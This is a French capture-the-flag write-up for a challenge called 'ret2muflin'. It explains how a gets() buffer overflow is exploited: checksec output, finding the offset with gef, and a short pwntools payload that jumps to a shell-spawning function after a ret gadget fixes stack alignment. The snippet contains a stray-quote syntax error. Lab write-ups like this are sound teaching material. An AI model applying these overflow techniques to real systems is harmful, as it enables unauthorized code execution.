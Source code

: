 # ret2muflin

## Énoncé
Pour ce challenge, vous devez arriver à destination, mais le GPS ne semble pas vouloir comprendre ce que vous dites.

## Résolution
On reçoit uniquement un fichier compilé, voyons voir comment il se décompile : 
![Fichier décompilé](decompiled.png).

On a un buffer de 48 octets, et un appel à `gets`. Buffer overflow donc.

Qu'en faire ? Heureusement on voit qu'il y a une autre fonction que `main`, `muflin` : 
![La fonction muflin](muflin.png)

qui nous donne une shell. Le plan d'action est simple, il s'agit d'un simple ret2win (clin d'oeil le nom du challenge).

Voyons voir ce que checksec nous dit :
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
Parfait, il n'y a aucune protection il devrait suffire d'envoyer la bonne adresse pour gagner.

Avec gdb, on détermine la quantité d'octets à envoyer avant l'adresse : 
[gef](https://github.com/hugsy/gef) 

nous permet de générer une chaine de caractères à envoyer comme entrée, puis quand le programme segfault on regarde ce qui s'est retrouve dans `rsp` et on retrouve l'offset dans la chaine : 
![Après le buffer overflow](rsp.png) :

```
gef➤  pattern search haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana
[+] Searching for '616e616161616161616d616161616161616c616161616161616b616161616161616a61616161616161696161616161616168'/'686161616161616169616161616161616a616161616161616b616161616161616c616161616161616d616161616161616e61' with period=8
[+] Found at offset 56 (big-endian search)
```

Il faut donc envoyer 56 octets puis l'adresse à laquelle on souhaite return, [pwntools](https://github.com/Gallopsled/pwntools) à la rescousse.

On peut récupérer l'adresse de la fonction muflin de cette manière :
```python
elf = ELF("./chall")

payload = b"A" * 56"
muflin = p64(elf.symbols["muflin"])
payload += muflin
```

Cependant cela ne suffit pas : on jump bien à `muflin`, mais on segfault pendant l'exécution de la fonction `system`. C'est du au fait que le stack pointer n'est pas bien aligné. Pour le réaligner, on peut effectuer un autre return avant d'aller à `muflin`.
On peut trouver l'adresse d'une instruction `ret` avec `objdump` : `objdump -d chall`, j'ai pris par exemple 0x40117f

La version finale du script est jointe à ce fichier
